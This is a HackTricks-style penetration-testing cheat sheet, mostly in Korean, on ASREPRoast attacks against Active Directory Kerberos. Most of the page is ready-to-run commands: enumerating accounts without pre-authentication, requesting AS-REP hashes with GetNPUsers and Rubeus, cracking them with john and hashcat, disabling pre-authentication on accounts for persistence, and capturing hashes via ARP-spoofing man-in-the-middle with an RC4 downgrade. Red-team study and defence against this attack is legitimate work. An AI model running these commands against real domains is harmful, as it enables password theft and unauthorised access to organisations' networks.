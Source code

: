 # ASREPRoast

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## ASREPRoast

ASREPRoast는 **Kerberos 사전 인증 필수 속성**이 없는 사용자를 악용하는 보안 공격입니다. 본질적으로 이 취약점은 공격자가 사용자의 비밀번호 없이 도메인 컨트롤러(DC)에서 사용자의 인증을 요청할 수 있게 합니다. 그러면 DC는 사용자의 비밀번호에서 파생된 키로 암호화된 메시지로 응답하며, 공격자는 이를 오프라인에서 크랙하여 사용자의 비밀번호를 알아내려고 시도할 수 있습니다.

이 공격의 주요 요구 사항은 다음과 같습니다:

* **Kerberos 사전 인증 부족**: 대상 사용자는 이 보안 기능이 활성화되어 있지 않아야 합니다.
* **도메인 컨트롤러(DC)와의 연결**: 공격자는 요청을 보내고 암호화된 메시지를 받기 위해 DC에 접근해야 합니다.
* **선택적 도메인 계정**: 도메인 계정을 보유하면 공격자가 LDAP 쿼리를 통해 취약한 사용자를 더 효율적으로 식별할 수 있습니다. 이러한 계정이 없으면 공격자는 사용자 이름을 추측해야 합니다.

#### 취약한 사용자 열거하기 (도메인 자격 증명 필요)

{% code title="Using Windows" %}
```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```
{% endcode %}

{% code title="리눅스 사용" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```
#### AS\_REP 메시지 요청

{% code title="리눅스 사용" %}
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
{% endcode %}

{% code title="Windows 사용하기" %}
```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
{% endcode %}

{% hint style="warning" %}
Rubeus를 사용한 AS-REP Roasting은 0x17의 암호화 유형과 0의 사전 인증 유형을 가진 4768을 생성합니다.
{% endhint %}

### 크래킹
```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```
### 지속성

사용자에게 **GenericAll** 권한(또는 속성 쓰기 권한)이 있는 경우 **preauth**가 필요하지 않도록 강제합니다:

{% code title="Using Windows" %}
```bash
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% endcode %}

{% code title="리눅스 사용하기" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH
```
{% endcode %}

## 자격 증명 없이 ASREProast

공격자는 중간자 위치를 사용하여 AS-REP 패킷을 캡처할 수 있으며, 이는 Kerberos 사전 인증이 비활성화되지 않은 상태에서도 네트워크를 통과합니다. 따라서 VLAN의 모든 사용자에게 작동합니다.\
[ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) 를 사용하면 이를 수행할 수 있습니다. 또한, 이 도구는 Kerberos 협상을 변경하여 클라이언트 워크스테이션이 RC4를 사용하도록 강제합니다.
```bash
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```
## References

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

***

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

경험이 풍부한 해커 및 버그 바운티 헌터와 소통하기 위해 [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) 서버에 참여하세요!

**해킹 통찰력**\
해킹의 스릴과 도전에 대해 깊이 있는 콘텐츠에 참여하세요.

**실시간 해킹 뉴스**\
실시간 뉴스와 통찰력을 통해 빠르게 변화하는 해킹 세계를 최신 상태로 유지하세요.

**최신 공지사항**\
새로운 버그 바운티 출시 및 중요한 플랫폼 업데이트에 대한 정보를 유지하세요.

오늘 [**Discord**](https://discord.com/invite/N3FrSbmwdy)에 참여하여 최고의 해커들과 협업을 시작하세요!

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
